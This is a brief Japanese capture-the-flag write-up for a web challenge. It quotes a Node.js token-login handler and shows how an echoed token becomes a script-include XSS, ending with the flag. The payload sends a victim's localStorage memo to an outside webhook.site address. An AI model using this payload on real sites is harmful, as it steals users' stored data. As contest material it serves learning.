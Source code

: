  const query = promisify(connection.query.bind(connection));
  try {
    const result = await query(
      "SELECT id, name FROM user WHERE magic_token = ?",
      [token]
    );
    if (result.length !== 1) {
      return res.status(200).send(escapeHTML(token) + " is invalid token.");
    }
    req.session.user_id = result[0].id;
    req.session.username = result[0].name;
    req.session.magic_token = token;
    return res.redirect("/");
  } catch (e) {
    next(e);
  } finally {
    await connection.release();
  }
  return res.redirect("/login");
});

function escapeHTML(string) {
  return string
    .replace(/\&/g, "&amp;")
    .replace(/\</g, "&lt;")
    .replace(/\>/g, "&gt;")
    .replace(/\"/g, "&quot;")
    .replace(/\'/g, "&#x27");
}
```
HTMLがエスケープされている  
jsとして解釈できる形にすればよいので
```
magic?token=location=`https://webhook.site/22796d7a-5c22-48f8-8443-736abb05f2a1?a=`%2BlocalStorage.getItem(`memo`)//
```
みたいにして、それをscriptで読み込む

```
<script src='https://magic.quals.beginners.seccon.jp/magic?token=location=`https://webhook.site/22796d7a-5c22-48f8-8443-736abb05f2a1?a=`%2BlocalStorage.getItem(`memo`)//'>
```

クローラーを```/magic?token=~```を踏ませる

CPS ctf4b{w0w_y0ur_skil1ful_3xploi7_c0de_1s_lik3_4_ma6ic_7rick}
